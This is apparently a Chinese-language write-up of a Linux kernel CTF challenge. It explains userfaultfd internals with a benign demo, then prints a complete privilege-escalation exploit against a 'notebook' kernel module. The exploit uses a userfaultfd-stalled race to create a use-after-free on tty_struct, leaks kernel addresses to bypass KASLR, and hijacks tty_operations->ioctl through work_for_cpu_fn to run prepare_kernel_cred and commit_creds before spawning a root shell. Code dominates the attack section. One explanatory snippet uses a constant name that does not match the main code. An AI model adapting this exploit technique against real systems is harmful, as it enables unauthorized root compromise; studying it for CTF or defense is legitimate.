

### 3-4. 关键数据结构详解

**1. userfaultfd上下文结构**：

```c
struct userfaultfd_ctx {
    struct list_head list;              // 全局链表节点
    struct mm_struct *mm;               // 关联的内存描述符
    int flags;                          // 标志位

    // 等待队列头
    wait_queue_head_t fault_wqh;        // 等待缺页事件
    wait_queue_head_t fault_pending_wqh; // 等待处理中的缺页
    wait_queue_head_t event_wqh;        // 等待其他事件

    // 注册的内存区域链表
    struct list_head ranges;            // 注册范围链表

    // 引用计数
    atomic_t refcount;                  // 原子引用计数
    struct kref kref;                   // 内核引用计数

    // 统计信息
    atomic_t msg_count;                 // 消息计数
    bool released;                      // 是否已释放
};
```

**2. 缺页等待队列结构**：

```c
struct userfaultfd_wait_queue {
    struct list_head wq;                // 等待队列链表节点
    struct task_struct *task;           // 等待的任务结构
    struct userfaultfd_ctx *ctx;        // 关联的上下文
    bool waken;                         // 是否已被唤醒
    enum userfaultfd_state state;       // 状态枚举
    struct userfaultfd_msg msg;         // 缺页消息内容

    // 缺页地址信息
    unsigned long address;              // 触发缺页的地址
    unsigned long flags;                // 缺页标志位
    unsigned long features;             // 支持的特性
};
```

**3. 内存区域范围结构**：

```c
struct userfaultfd_range {
    struct list_head list;              // 链表节点
    unsigned long start;                // 起始地址（页对齐）
    unsigned long len;                  // 长度（页对齐）
    unsigned long mode;                 // 监控模式标志

    // 关联的VMA信息
    struct vm_area_struct *vma;         // 对应的VMA指针
    struct mm_struct *mm;               // 内存描述符

    // 状态信息
    bool registered;                    // 是否已注册
    atomic_t refcount;                  // 引用计数
};
```

### 3-5. 完整使用示例

以下是一个完整的`userfaultfd`使用示例，展示了从初始化、注册、处理到清理的完整流程。此示例创建两个线程：主线程触发内存访问，监控线程处理缺页事件。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/userfaultfd.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <pthread.h>
#include <errno.h>
#include <fcntl.h>

#define PAGE_SIZE 4096
#define UFFD_BUFFER_SIZE (PAGE_SIZE * 4)

// 全局变量
static int uffd = -1;           // userfaultfd文件描述符
static char *uffd_buffer = NULL; // 监控的内存区域
static pthread_t monitor_thread; // 监控线程

// 监控线程函数，处理缺页事件
static void *uffd_monitor_thread_func(void *arg) {
    struct uffd_msg msg;
    struct uffdio_copy uffdio_copy;
    ssize_t nread;

    printf("[监控线程] 开始监听缺页事件...\n");

    // 循环读取缺页事件
    while (1) {
        // 读取缺页事件
        nread = read(uffd, &msg, sizeof(msg));
        if (nread == 0) {
            printf("[监控线程] userfaultfd关闭\n");
            return NULL;
        }

        if (nread < 0) {
            if (errno == EAGAIN || errno == EWOULDBLOCK) {
                continue;
            }
            perror("读取userfaultfd失败");
            return NULL;
        }

        // 检查是否为缺页事件
        if (msg.event != UFFD_EVENT_PAGEFAULT) {
            printf("[监控线程] 收到非缺页事件: %u\n", msg.event);
            continue;
        }

        // 提取缺页信息
        unsigned long fault_addr = msg.arg.pagefault.address;
        unsigned flags = msg.arg.pagefault.flags;

        printf("[监控线程] 缺页事件:\n");
        printf("  地址: 0x%lx (偏移: 0x%lx)\n",
               fault_addr, fault_addr - (unsigned long)uffd_buffer);
        printf("  类型: %s\n", (flags & UFFD_PAGEFAULT_FLAG_WRITE) ? "写" : "读");

        // 计算缺页地址对应的页面起始地址
        unsigned long page_start = fault_addr & ~(PAGE_SIZE - 1);

        // 准备页面数据
        char *page_data = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE,
                               MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if (page_data == MAP_FAILED) {
            perror("分配页面数据失败");
            continue;
        }

        // 填充页面内容
        snprintf(page_data, PAGE_SIZE,
                "这是页面地址 0x%lx 的内容\n"
                "缺页地址: 0x%lx\n"
                "访问类型: %s\n"
                "线程ID: %ld\n"
                "时间: %ld\n",
                page_start, fault_addr,
                (flags & UFFD_PAGEFAULT_FLAG_WRITE) ? "写操作" : "读操作",
                syscall(SYS_gettid), time(NULL));

        // 使用UFFDIO_COPY填充页面
        uffdio_copy.dst = page_start;
        uffdio_copy.src = (unsigned long)page_data;
        uffdio_copy.len = PAGE_SIZE;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;

        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1) {
            perror("UFFDIO_COPY失败");
        } else {
            printf("[监控线程] 成功处理缺页，填充页面 0x%lx\n", page_start);
        }

        // 清理临时页面
        munmap(page_data, PAGE_SIZE);
    }

    return NULL;
}

// 初始化userfaultfd
static int init_userfaultfd(void) {
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;
    int ret;

    // 1. 创建userfaultfd文件描述符
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd < 0) {
        perror("创建userfaultfd失败");
        return -1;
    }
    printf("[初始化] 创建userfaultfd成功，fd=%d\n", uffd);

    // 2. 设置API版本
    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1) {
        perror("设置UFFDIO_API失败");
        close(uffd);
        return -1;
    }
    printf("[初始化] 设置API版本: %llu\n", uffdio_api.api);

    // 3. 分配监控内存区域
    uffd_buffer = mmap(NULL, UFFD_BUFFER_SIZE, PROT_READ | PROT_WRITE,
                       MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (uffd_buffer == MAP_FAILED) {
        perror("分配监控内存失败");
        close(uffd);
        return -1;
    }
    printf("[初始化] 分配监控内存: 0x%lx-0x%lx (%lu字节)\n",
           (unsigned long)uffd_buffer,
           (unsigned long)uffd_buffer + UFFD_BUFFER_SIZE,
           UFFD_BUFFER_SIZE);

    // 4. 立即解除映射，使内存区域处于未映射状态
    if (madvise(uffd_buffer, UFFD_BUFFER_SIZE, MADV_DONTNEED) == -1) {
        perror("MADV_DONTNEED失败");
    }
    printf("[初始化] 内存区域已标记为未映射\n");

    // 5. 注册内存区域
    uffdio_register.range.start = (unsigned long)uffd_buffer;
    uffdio_register.range.len = UFFD_BUFFER_SIZE;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;

    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1) {
        perror("注册内存区域失败");
        munmap(uffd_buffer, UFFD_BUFFER_SIZE);
        close(uffd);
        return -1;
    }
    printf("[初始化] 注册内存区域成功\n");
    printf("  支持的ioctl: 0x%llx\n", uffdio_register.ioctls);

    // 6. 创建监控线程
    ret = pthread_create(&monitor_thread, NULL, uffd_monitor_thread_func, NULL);
    if (ret != 0) {
        fprintf(stderr, "创建监控线程失败: %s\n", strerror(ret));
        ioctl(uffd, UFFDIO_UNREGISTER, &uffdio_register.range);
        munmap(uffd_buffer, UFFD_BUFFER_SIZE);
        close(uffd);
        return -1;
    }
    printf("[初始化] 监控线程已启动\n");

    return 0;
}

// 触发缺页访问的函数
static void trigger_page_fault(int index) {
    char *addr = uffd_buffer + (index * PAGE_SIZE);

    printf("\n[触发线程] 尝试访问地址: 0x%lx (页面 %d)\n",
           (unsigned long)addr, index);

    // 触发读访问
    printf("[触发线程] 读取内存...\n");
    char value = *addr;  // 这会触发缺页异常
    printf("[触发线程] 读取完成: 字符='%c' (ASCII=%d)\n",
           (value >= 32 && value <= 126) ? value : '.', value);

    // 触发写访问
    printf("[触发线程] 写入内存...\n");
    *addr = 'X';  // 这会触发缺页异常
    printf("[触发线程] 写入完成\n");

    // 验证写入结果
    printf("[触发线程] 验证写入: 字符='%c'\n", *addr);
}

// 主函数
int main(int argc, char *argv[]) {
    printf("=== userfaultfd 使用示例 ===\n\n");

    // 1. 初始化userfaultfd
    if (init_userfaultfd() != 0) {
        fprintf(stderr, "初始化失败\n");
        return 1;
    }

    // 2. 等待监控线程就绪
    sleep(1);

    // 3. 触发多次缺页访问
    printf("\n=== 开始触发缺页访问 ===\n");

    // 访问不同页面
    for (int i = 0; i < 3; i++) {
        printf("\n--- 测试页面 %d ---\n", i);
        trigger_page_fault(i);
        sleep(1);  // 给监控线程处理时间
    }

    // 4. 清理资源
    printf("\n=== 清理资源 ===\n");

    // 注销内存区域
    struct uffdio_register uffdio_register = {
        .range.start = (unsigned long)uffd_buffer,
        .range.len = UFFD_BUFFER_SIZE
    };

    if (ioctl(uffd, UFFDIO_UNREGISTER, &uffdio_register.range) == -1) {
        perror("注销内存区域失败");
    } else {
        printf("[清理] 已注销内存区域\n");
    }

    // 关闭userfaultfd（这会使得监控线程的read返回0）
    close(uffd);
    printf("[清理] 已关闭userfaultfd文件描述符\n");

    // 等待监控线程结束
    pthread_join(monitor_thread, NULL);
    printf("[清理] 监控线程已结束\n");

    // 释放内存
    if (uffd_buffer) {
        munmap(uffd_buffer, UFFD_BUFFER_SIZE);
        printf("[清理] 已释放监控内存\n");
    }

    printf("\n=== 示例完成 ===\n");
    return 0;
}
```

### 3-6. 技术特点与限制

**技术特点**：

1. **精细控制**：以页面粒度控制内存访问行为
2. **异步通知**：缺页事件通过文件描述符异步通知用户空间
3. **线程级挂起**：只挂起触发缺页的线程，不影响进程其他部分
4. **可组合性**：可与`madvise()`、`mprotect()`等内存操作组合使用

**使用限制**：

1. **权限要求**：通常需要`CAP_SYS_PTRACE`能力
2. **内存范围**：只能监控进程的私有匿名映射或共享内存
3. **性能开销**：每次缺页都涉及用户-内核上下文切换
4. **并发复杂性**：正确处理多个并发缺页事件需要仔细设计

**安全考虑**：

1. **权限控制**：应限制`userfaultfd`的使用权限，避免被滥用
2. **超时机制**：考虑添加缺页响应超时，防止永久挂起
3. **资源限制**：限制单个进程可注册的`userfaultfd`区域大小和数量
4. **监控审计**：记录异常的`userfaultfd`使用模式

### 3-7. 应用场景与价值

**合法应用场景**：

1. **内存迁移工具**：在线迁移进程内存，支持热迁移
2. **内存去重**：识别相同内存页，合并以减少内存占用
3. **调试分析**：监控特定内存区域访问模式，用于调试
4. **检查点恢复**：实现进程状态检查点和恢复
5. **内存监控**：跟踪内存使用模式，分析内存访问行为

**安全研究价值**：

1. **竞态条件分析**：精确控制执行时序，分析并发缺陷
2. **内存安全测试**：测试内存管理代码的健壮性
3. **内核接口验证**：验证内核接口在异常条件下的行为
4. **同步机制测试**：测试各种同步原语的正确性

**研究意义**：

`userfaultfd`机制展示了现代操作系统如何通过用户空间协作实现灵活的系统功能。它打破了传统内核与用户空间的严格边界，提供了新的系统设计可能性。同时，其强大的控制能力也带来了新的安全考虑，需要在功能灵活性与系统安全之间找到平衡点。

对于内核开发者而言，理解`userfaultfd`的工作原理有助于设计更安全的内存管理接口；对于安全研究人员，掌握这一机制有助于发现和验证复杂的内核漏洞。通过合理使用和适当限制，`userfaultfd`可以成为强大的系统工具，同时也需要警惕其可能被滥用的风险。

## 4. 实战演练

exploit核心代码如下：

```c
size_t user_cs, user_ss, user_rflags, user_sp;

void save_status() {
  asm volatile("mov user_cs, cs;"
               "mov user_ss, ss;"
               "mov user_sp, rsp;"
               "pushf;"
               "pop user_rflags;");
  log.info("Status has been saved.");
}

int flag_fd;
void get_root_shell(void) {
  char flag[0x100] = {0};
  if (getuid()) {
    log.error("Failed to get the root!");
    exit(-1);
  }

  log.success("Successful to get the root. Execve root shell now...");
  flag_fd = open("/root/flag", O_RDONLY);
  if (flag_fd < 0) {
    log.error("failed to open /root/flag!");
    exit(-1);
  }
  read(flag_fd, flag, sizeof(flag) - 1);
  log.success("Got flag: %s", flag);
  system("/bin/sh");
}

void bind_core(int core) {
  cpu_set_t cpu_set;

  CPU_ZERO(&cpu_set);
  CPU_SET(core, &cpu_set);
  sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
  log.info("Process binded to core %d", core);
}

/**
 * kernel-relaetd numerical value
 **/
size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;
#define TTY_STRUCT_SIZE 0x2c0

#define PTM_UNIX98_OPS 0xffffffff82071aa0
#define PTY_UNIX98_OPS 0xffffffff82071980
#define COMMIT_CREDS 0xffffffff8107f6f0
#define PREPARE_KERNEL_CRED 0xffffffff8107f9c0
#define WORK_FOR_CPU_FN 0xffffffff81074e80

/**
 * Syscall userfaultfd() operator
 **/
char fault_page_for_stuck[0x1000];

void register_userfaultfd(pthread_t *monitor_thread, void *addr,
                          unsigned long len, void *(*handler)(void *)) {
  long uffd;
  struct uffdio_api uffdio_api;
  struct uffdio_register uffdio_register;
  int ret;

  /* Create and enable userfaultfd object */
  uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
  if (uffd == -1) {
    log.error("call userfaultfd failed!");
    exit(-1);
  }

  uffdio_api.api = UFFD_API;
  uffdio_api.features = 0;
  if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1) {
    log.error("call ioctl UFFDIO_API failed!");
    exit(-1);
  }

  uffdio_register.range.start = (unsigned long)addr;
  uffdio_register.range.len = len;
  uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
  if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1) {
    log.error("call ioctl UFFDIO_REGISTER failed!");
    exit(-1);
  }

  ret = pthread_create(monitor_thread, NULL, handler, (void *)uffd);
  if (ret != 0) {
    log.error("create monitor thread failed!");
    exit(-1);
  }
}

void *uffd_handler_for_stucking_thread(void *args) {
  struct uffd_msg msg;
  int fault_cnt = 0;
  long uffd;

  struct uffdio_copy uffdio_copy;
  ssize_t nread;

  uffd = (long)args;

  for (;;) {
    struct pollfd pollfd;
    int nready;
    pollfd.fd = uffd;
    pollfd.events = POLLIN;
    nready = poll(&pollfd, 1, -1);

    if (nready == -1) {
      log.error("poll failed!");
      exit(-1);
    }

    nread = read(uffd, &msg, sizeof(msg));

    /* just stuck there is okay... */
    sleep(100000000);

    if (nread == 0) {
      log.error("read EOF on userfaultfd!");
      exit(-1);
    }

    if (nread == -1) {
      log.error("read error on userfaultfd!");
      exit(-1);
    }

    if (msg.event != UFFD_EVENT_PAGEFAULT) {
      log.error("Get unexpected event on userfaultfd!");
      exit(-1);
    }

    uffdio_copy.src = (unsigned long long)fault_page_for_stuck;
    uffdio_copy.dst =
        (unsigned long long)msg.arg.pagefault.address & ~(0x1000 - 1);
    uffdio_copy.len = 0x1000;
    uffdio_copy.mode = 0;
    uffdio_copy.copy = 0;
    if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1) {
      log.error("call ioctl UFFDIO_COPY failed!");
      exit(-1);
    }

    return NULL;
  }
}

void register_userfaultfd_for_thread_stucking(pthread_t *monitor_thread,
                                              void *buf, unsigned long len) {
  register_userfaultfd(monitor_thread, buf, len,
                       uffd_handler_for_stucking_thread);
}

/**
 * Challenge interactor
 **/
#define NOTE_NUM 0x10
struct note_t {
  char *note;
  size_t size;
};

struct usernote_t {
  size_t idx;
  size_t size;
  char *buf;
};

int note_fd;
sem_t evil_add_sem, evil_edit_sem;
char *uffd_buf;
char fault_page[0x1000] = {"BinRacer"};

ssize_t notebook_read(int idx, void *buf) { return read(note_fd, buf, idx); }

ssize_t notebook_write(int idx, void *buf) { return write(note_fd, buf, idx); }

void note_add(size_t idx, size_t size, char *buf) {
  struct usernote_t note = {
      .idx = idx,
      .size = size,
      .buf = buf,
  };

  ioctl(note_fd, 0x100, &note);
}

void note_del(size_t idx) {
  struct usernote_t note = {
      .idx = idx,
  };

  ioctl(note_fd, 0x200, &note);
}

void note_edit(size_t idx, size_t size, char *buf) {
  struct usernote_t note = {
      .idx = idx,
      .size = size,
      .buf = buf,
  };

  ioctl(note_fd, 0x300, &note);
}

void note_gift(void *buf) {
  struct usernote_t note = {
      .buf = buf,
  };

  ioctl(note_fd, 0x64, &note);
}

void *fix_size_by_add(void *args) {
  sem_wait(&evil_add_sem);
  note_add(0, 0x60, uffd_buf);
}

void *construct_uaf(void *args) {
  sem_wait(&evil_edit_sem);
  note_edit(0, 0, uffd_buf);
}

int main() {
  struct note_t kernel_notebook[NOTE_NUM];
  pthread_t uffd_monitor_thread, add_fix_size_thread, edit_uaf_thread;
  size_t orig_tty_struct[TTY_STRUCT_SIZE / 8] = {0};
  size_t fake_tty_struct[TTY_STRUCT_SIZE / 8] = {0};
  size_t tty_struct_addr = 0;
  int tty_fd;

  /* fundamental infastructure */
  save_status();
  bind_core(0);

  sem_init(&evil_add_sem, 0, 0);
  sem_init(&evil_edit_sem, 0, 0);

  /* open dev */
  note_fd = open("/dev/notebook", O_RDWR);
  if (note_fd < 0) {
    log.error("open /dev/notebook failed!");
    exit(-1);
  }

  /* register userfaultfd */
  log.info("register userfaultfd...");

  uffd_buf = (char *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
                          MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  register_userfaultfd_for_thread_stucking(&uffd_monitor_thread, uffd_buf,
                                           0x1000);

  /* get a tty-size object */
  log.info("allocating tty_struct-size object...");

  note_add(0, 0x10, "BinRacerBinRacer");
  note_edit(0, TTY_STRUCT_SIZE, fault_page);

  /**
   * construct UAF by userfaultfd.
   * Note that we need to sleep(1) there to wait for the kfree() to be done,
   * so that the UAF object can be regetted later.
   */
  log.info("constructing UAF on tty_struct...");

  pthread_create(&edit_uaf_thread, NULL, construct_uaf, NULL);
  pthread_create(&add_fix_size_thread, NULL, fix_size_by_add, NULL);

  sem_post(&evil_edit_sem);
  sleep(1);

  /**
   * fix notebook[0]->size.
   * Note that we need to sleep(1) there to wait for the `size` to be fixed.
   */
  sem_post(&evil_add_sem);
  sleep(1);

  log.info("leaking kernel address...");

  tty_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);
  if (tty_fd < 0) {
    log.error("open /dev/ptmx failed!");
    exit(-1);
  }

  notebook_read(0, orig_tty_struct);
  if (*(int *)orig_tty_struct != 0x5401) {
    log.error("Try Again!");
    exit(-1);
  }

  if ((orig_tty_struct[3] & 0xfff) == (PTY_UNIX98_OPS & 0xfff)) {
    kernel_offset = orig_tty_struct[3] - PTY_UNIX98_OPS;
    kernel_base += kernel_offset;
    log.success("leak pty_unix98_ops: 0x%lx", orig_tty_struct[3]);
  }

  if ((orig_tty_struct[3] & 0xfff) == (PTM_UNIX98_OPS & 0xfff)) {
    kernel_offset = orig_tty_struct[3] - PTM_UNIX98_OPS;
    kernel_base += kernel_offset;
    log.success("leak ptm_unix98_ops: 0x%lx", orig_tty_struct[3]);
  }

  tty_struct_addr = orig_tty_struct[0x38 / 8] - 0x38;
  log.success("leak tty_struct heap addr: 0x%lx", tty_struct_addr);
  log.success("Kernel base: 0x%lx", kernel_base);
  log.success("Kernel offset: 0x%lx", kernel_offset);

  memcpy((void *)fake_tty_struct, (void *)orig_tty_struct, TTY_STRUCT_SIZE);
  log.info("changing the tty_struct->ops...");
  fake_tty_struct[3] = tty_struct_addr - 0x8;
  // Change the ioctl of tty_operations to work_for_cpu_fn function
  log.info("changing the tty_operations->ioctl");
  fake_tty_struct[11] = kernel_offset + WORK_FOR_CPU_FN;
  fake_tty_struct[4] = kernel_offset + PREPARE_KERNEL_CRED;
  fake_tty_struct[5] = (size_t)NULL;

  log.info("writing changed tty_struct...");
  notebook_write(0, fake_tty_struct);
  log.info("triger prepare_kernel_cred(NULL)...");
  ioctl(tty_fd, 0xdeadbeaf, 0xdeadbeaf);

  log.info("reading return value of prepare_kernel_cred(NULL)...");
  notebook_read(0, fake_tty_struct);
  log.info("writing changed tty_struct again...");
  fake_tty_struct[4] = kernel_offset + COMMIT_CREDS;
  fake_tty_struct[5] = fake_tty_struct[6];
  notebook_write(0, fake_tty_struct);
  log.info("triger commit_creds(&root_cred)...");
  ioctl(tty_fd, 0xdeadbeaf, 0xdeadbeaf);

  log.info("fix the tty_struct...");
  notebook_write(0, orig_tty_struct);

  get_root_shell();
  return 0;
}
```

### 4-1. 环境准备与初始化

验证程序首先进行基础环境初始化，包括保存进程状态、绑定CPU核心、初始化同步信号量，并打开目标设备文件。这些操作为后续的竞态条件构造提供了稳定的执行环境。

**核心初始化步骤**：

1. **状态保存**：保存当前进程状态，确保验证过程不干扰系统其他部分
2. **CPU核心绑定**：绑定到特定CPU核心，减少多核并发不确定性
3. **信号量初始化**：创建两个POSIX信号量用于线程同步控制
4. **设备文件打开**：打开目标内核模块设备文件获取操作句柄

### 4-2. userfaultfd注册与配置

为了构造精确的竞争条件，验证程序使用`userfaultfd`机制实现对内核执行流的精确控制。下图展示了完整的验证流程架构：



**userfaultfd配置实现**：
验证程序注册一个专门用于线程挂起的`userfaultfd`处理器，当线程访问特定内存区域时，处理器会使线程无限期休眠。

```c
/* 注册userfaultfd */
uffd_buf = (char *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
                        MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
register_userfaultfd_for_thread_stucking(&uffd_monitor_thread, uffd_buf, 0x1000);
```

**userfaultfd处理器实现**：

```c
void *uffd_handler_for_stucking_thread(void *args) {
    struct uffd_msg msg;
    long uffd = (long)args;

    for (;;) {
        // 等待缺页事件
        struct pollfd pollfd;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        poll(&pollfd, 1, -1);

        // 读取缺页消息
        read(uffd, &msg, sizeof(msg));

        if (msg.event != UFFD_EVENT_PAGEFAULT) {
            log.error("Get unexpected event on userfaultfd!");
            exit(-1);
        }

        // 无限期休眠，挂起线程
        sleep(100000000);

        // 理论上不会执行到这里
        return NULL;
    }
}
```

### 4-3. 内存对象准备与竞争条件构造

**步骤1：分配初始内存对象**
验证程序首先在索引0位置创建一个初始便签，然后将其大小调整为`tty_struct`对象的大小，为后续的内存重新分配做准备。

```c
/* 获取tty_struct大小的对象 */
note_add(0, 0x10, "BinRacerBinRacer");
note_edit(0, TTY_STRUCT_SIZE, fault_page);
```

**步骤2：创建竞争线程**
创建两个线程分别执行不同的操作，通过信号量精确控制执行顺序：

```c
void *fix_size_by_add(void *args) {
    sem_wait(&evil_add_sem);           // 等待信号量
    note_add(0, 0x60, uffd_buf);       // 执行添加操作
}

void *construct_uaf(void *args) {
    sem_wait(&evil_edit_sem);          // 等待信号量
    note_edit(0, 0, uffd_buf);         // 执行编辑操作，释放内存
}
```

**步骤3：触发竞争条件**
通过信号量控制线程执行顺序，构造精确的竞争窗口：

```c
/* 构造UAF条件 */
pthread_create(&edit_uaf_thread, NULL, construct_uaf, NULL);
pthread_create(&add_fix_size_thread, NULL, fix_size_by_add, NULL);

/* 先触发edit操作，释放内存 */
sem_post(&evil_edit_sem);
sleep(1);  // 等待kfree完成

/* 再触发add操作，修复size */
sem_post(&evil_add_sem);
sleep(1);  // 等待size修复
```

**竞争条件分析**：

1. **edit_uaf_thread**：执行`note_edit(0, 0, uffd_buf)`，调用`krealloc`释放内存，在`copy_from_user`处因访问`uffd_buf`而挂起
2. **add_fix_size_thread**：执行`note_add(0, 0x60, uffd_buf)`，在`copy_from_user`处同样挂起，但在挂起前已将`notebook[0].size`修复为0x60
3. **内存释放窗口**：此时内存已释放，但`notebook[0].note`指针尚未置为NULL，形成UAF条件

### 4-4. 内存重新分配与信息泄露

**步骤4：重新分配内存**
在内存释放但指针未重置的时间窗口内，通过打开`/dev/ptmx`设备文件触发`tty_struct`对象分配，占用刚刚释放的内存：

```c
log.info("leaking kernel address...");

tty_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);
if (tty_fd < 0) {
    log.error("open /dev/ptmx failed!");
    exit(-1);
}
```

**步骤5：信息泄露**
通过`notebook_read`读取`tty_struct`对象的内容，从中提取内核地址信息：

```c
notebook_read(0, orig_tty_struct);
if (*(int *)orig_tty_struct != 0x5401) {
    log.error("Try Again!");
    exit(-1);
}

// 从tty_struct中提取内核地址
if ((orig_tty_struct[3] & 0xfff) == (PTY_UNIX98_OPS & 0xfff)) {
    kernel_offset = orig_tty_struct[3] - PTY_UNIX98_OPS;
    kernel_base += kernel_offset;
    log.success("leak pty_unix98_ops: 0x%lx", orig_tty_struct[3]);
}

tty_struct_addr = orig_tty_struct[0x38 / 8] - 0x38;
log.success("leak tty_struct heap addr: 0x%lx", tty_struct_addr);
log.success("Kernel base: 0x%lx", kernel_base);
log.success("Kernel offset: 0x%lx", kernel_offset);
```

**关键信息获取**：

1. **内核偏移量**：通过`tty_operations`指针计算内核基址偏移
2. **堆地址**：获取`tty_struct`对象在堆中的地址
3. **内核基址**：计算内核镜像的基地址，绕过KASLR保护

### 4-5. 控制流转移与权限状态变化

**步骤6：构造伪装的tty_operations**
基于获取的内核地址信息，构造伪装的`tty_operations`结构，调整关键函数指针：

```c
memcpy((void *)fake_tty_struct, (void *)orig_tty_struct, TTY_STRUCT_SIZE);
log.info("changing the tty_struct->ops...");

// 修改tty_struct->ops指针
fake_tty_struct[3] = tty_struct_addr - 0x8;

// 修改tty_operations->ioctl为work_for_cpu_fn函数
log.info("changing the tty_operations->ioctl");
fake_tty_struct[11] = kernel_offset + WORK_FOR_CORE_FN;

// 设置prepare_kernel_cred为要调用的函数
fake_tty_struct[4] = kernel_offset + PREPARE_KERNEL_CRED;
fake_tty_struct[5] = (size_t)NULL;
```

**work_for_cpu_fn函数机制与调用链分析**：

`work_for_cpu_fn`是Linux内核工作队列机制中的一个辅助函数，其结构定义如下：

```c
struct work_for_cpu {
    struct work_struct work;
    long (*fn)(void *);
    void *arg;
    long ret;
};

static void work_for_cpu_fn(struct work_struct *work)
{
    struct work_for_cpu *wfc = container_of(work, struct work_for_cpu, work);
    wfc->ret = wfc->fn(wfc->arg);  // 执行fn指针指向的函数
}
```

**调用链转换机制**：
当内核通过`tty->ops->ioctl(tty, file, cmd, arg)`调用`ioctl`操作时，由于`tty_struct->ops->ioctl`指针已被调整为`work_for_cpu_fn`，实际执行的调用链变为：

1. 内核调用`tty->ops->ioctl(tty, file, cmd, arg)`
2. 由于`ops->ioctl`指向`work_for_cpu_fn`，实际执行`work_for_cpu_fn(tty)`
3. 此时`$rdi`寄存器包含`tty_struct`指针，被`work_for_cpu_fn`解释为`work_struct`指针
4. 通过`container_of`宏，内核从`work_struct`推导出`work_for_cpu`结构

**内存布局转换**：
通过精心构造`tty_struct`的内存布局，使其在解释为`work_for_cpu`结构时，关键字段指向预期的函数和参数：

```c
// 内存布局对应关系
// tty_struct[0] 对应 work_struct.data
// tty_struct[1] 对应 work_struct.entry.next
// tty_struct[2] 对应 work_struct.entry.prev
// tty_struct[3] 对应 work_struct.func (但被忽略)
// tty_struct[4] 对应 work_for_cpu.fn
// tty_struct[5] 对应 work_for_cpu.arg
// tty_struct[6] 对应 work_for_cpu.ret
```

**验证程序的内存布局**：

```c
fake_tty_struct[3] = tty_struct_addr - 0x8;  // 被忽略的work_struct.func
fake_tty_struct[4] = kernel_offset + PREPARE_KERNEL_CRED;  // work_for_cpu.fn
fake_tty_struct[5] = (size_t)NULL;  // work_for_cpu.arg
```

**步骤7：写入伪装结构并触发执行**
将构造的伪装结构写入内存，然后通过`ioctl`调用触发控制流转移：

```c
log.info("writing changed tty_struct...");
notebook_write(0, fake_tty_struct);

log.info("trigger prepare_kernel_cred(NULL)...");
ioctl(tty_fd, 0xdeadbeaf, 0xdeadbeaf);
```

**执行过程分析**：

1. 调用`ioctl(tty_fd, 0xdeadbeaf, 0xdeadbeaf)`触发内核执行路径
2. 内核通过`tty_struct->ops->ioctl`调用`work_for_cpu_fn`
3. `work_for_cpu_fn`从`tty_struct`解释出`work_for_cpu`结构
4. 执行`wfc->fn(wfc->arg)`，即`prepare_kernel_cred(NULL)`
5. 返回值写入`wfc->ret`，对应`fake_tty_struct[6]`

**步骤8：权限状态变化**
读取执行结果，修改结构以调用`commit_creds`，完成权限状态变化：

```c
log.info("reading return value of prepare_kernel_cred(NULL)...");
notebook_read(0, fake_tty_struct);

log.info("writing changed tty_struct again...");
fake_tty_struct[4] = kernel_offset + COMMIT_CREDS;
fake_tty_struct[5] = fake_tty_struct[6];  // prepare_kernel_cred的返回值

notebook_write(0, fake_tty_struct);
log.info("trigger commit_creds(&root_cred)...");
ioctl(tty_fd, 0xdeadbeaf, 0xdeadbeaf);
```

**权限状态变化流程**：

1. **第一次ioctl**：触发`work_for_cpu_fn`执行`prepare_kernel_cred(NULL)`，创建root凭证
2. **读取结果**：获取`prepare_kernel_cred`返回的凭证结构地址
3. **第二次ioctl**：触发`work_for_cpu_fn`执行`commit_creds(root_cred)`，应用root凭证
